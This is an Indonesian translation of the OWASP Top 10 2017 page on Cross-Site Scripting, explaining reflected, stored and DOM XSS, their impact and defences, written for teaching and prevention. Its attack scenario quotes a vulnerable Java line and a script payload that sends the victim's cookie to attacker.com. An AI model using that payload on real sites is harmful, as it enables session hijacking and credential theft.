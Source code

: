 # A7:2017 Cross-Site Scripting (XSS)

| Agen ancaman / vektor serangan | Kelemahan Keamanan          | Dampak              |
| -- | -- | -- |
| Akses Lvl: Eksploitasi 3 | Prevalensi 3 : Deteksi 3 | Teknis 2 : Bisnis |
| Tool otomasi dapat  mendeteksi dan melakukan exploit pada semua tiga type XSS, and ada Framework eksploitasi yang tersedia secara gratis. | XSS adalah kerentanan paling umum kedua di OWASP Top 10, dan  masih ditemukan di sekitar dua pertiga dari semua aplikasi. Tool otomasi dapat menemukan beberapa kerentanan XSS secara otomatis, Khususnya dalam aplikasi pemrograman seperti PHP, J2EE / JSP, dan ASP.NET. | Dampak pada XSS untuk kategori medium untuk Reflected XSS dan DOM XSS dan Kritikal untuk stored XSS, dengan eksekusi kode jarak jauh di browser korban, seperti mencuri kredensial, sesi, atau mengirimkan malware ke korban |

## Apakah Aplikasi itu Rentan?

Ada Tiga Jenis XSS, biasanya menargetkan browser pengguna:

- **Reflected XSS**: Aplikasi atau API menyertakan masukan pengguna yang tidak divalidasi dan tidak lolos sebagai bagian dari keluaran HTML. Serangan yang berhasil memungkinkan penyerang mengeksekusi HTML dan JavaScript sewenang-wenang di browser korban. Biasanya pengguna perlu berinteraksi dengan beberapa tautan berbahaya yang mengarah ke laman yang dikendalikan penyerang, seperti situs web watering hole berbahaya, iklan, atau sejenisnya
- **Stored XSS**: Aplikasi atau API menyimpan masukan pengguna yang tidak dibersihkan yang dilihat di lain waktu oleh pengguna lain atau administrator. XSS yang disimpan sering dianggap sebagai risiko tinggi atau kritis.
- **DOM XSS**: Kerangka kerja JavaScript, aplikasi halaman tunggal, dan API yang secara dinamis menyertakan data yang dapat dikontrol penyerang ke halaman rentan terhadap DOM XSS. Idealnya, aplikasi tidak akan mengirim data yang dapat dikontrol penyerang ke JavaScript API yang tidak aman.
Serangan XSS termasuk pencurian sesi user, account takeover, _MFA bypass_, _DOM node replacement_ atau merubah tampilan website target (seperti panel login trojan), 
serangan terhadap browser pengguna seperti unduhan perangkat lunak berbahaya, pencatatan log kunci, dan serangan sisi klien lainnya.

## Bagaimana Cara Pencegahannya

Pencegahan XSS membutuhkan pemisahan pada data yang tidak terpecaya dari konten browser yang aktif. Ini dapat dicapai dengan:

- Menggunakan kerangka kerja yang secara otomatis lolos dari XSS berdasarkan desain, seperti Ruby on Rails terbaru, React JS. Pelajari batasan perlindungan XSS setiap framework dan tangani kasus penggunaan yang tidak tercakup dengan tepat.
- Mengeluarkan semua data yang tidak dipercaya berdasarkan konteks HTML (_body, attribute, JavaScript, CSS, atau URL)_ akan menutup celah Reflected and Stored XSS. Lihat OWASP XSS Prevention Cheat Sheet untuk detail dari teknik mengeluarkan data.
- Menerapkan pengkodean berkonteks peka saat memodifikasi dokumen browser di sisi klien bertindak melawan DOM XSS. Jika hal ini tidak dapat dihindari, teknik pelolosan sensitif konteks serupa dapat diterapkan ke API browser seperti yang dijelaskan di OWASP Cheat Sheet 'DOM based XSS Prevention'.
- Memungkinkan [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)sebagai kontrol mitigasi pertahanan mendalam terhadap XSS. Ini efektif jika tidak ada kerentanan lain yang memungkinkan penempatan kode berbahaya melalui penyertaan file loka (e.g. path traversal menimpa atau pustaka yang rentan dari jaringan pengiriman konten yang diizinkan).

## Contoh Skenario Serangan

**Skenario #1**: Aplikasi menggunakan data tidak tepercaya dalam pembuatan kode HTML berikut tanpa validasi:

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`
Penyerang memodifikasi parameter ‘CC’ dalam browser menjadi:

`'><script>document.location='https://attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

Serangan ini disebabkan ID sesi korban untuk dikirim ke situs web penyerang, sehingga memungkinkan penyerang untuk membajak sesi pengguna saat ini.

**Note**: Penyerang dapat menggunakan XSS untuk mengalahkan pertahanan Cross-Site Request Forgery (CSRF) otomatis yang mungkin digunakan aplikasi

## Referensi

### OWASP

- [OWASP Proactive Controls: Encode Data](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
- [OWASP Proactive Controls: Validate Data](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
- [OWASP Application Security Verification Standard: V5](https://owasp.org/www-project-application-security-verification-standard/)
- [OWASP Testing Guide: Testing for Reflected XSS](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting)
- [OWASP Testing Guide: Testing for Stored XSS](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/02-Testing_for_Stored_Cross_Site_Scripting)
- [OWASP Testing Guide: Testing for DOM XSS](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/01-Testing_for_DOM-based_Cross_Site_Scripting)
- [OWASP Cheat Sheet: XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [OWASP Cheat Sheet: DOM based XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
- [OWASP Cheat Sheet: XSS Filter Evasion](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
- [OWASP Java Encoder Project](https://owasp.org/www-project-java-encoder/)

### External

- [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
- [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_client-side-template-injection)
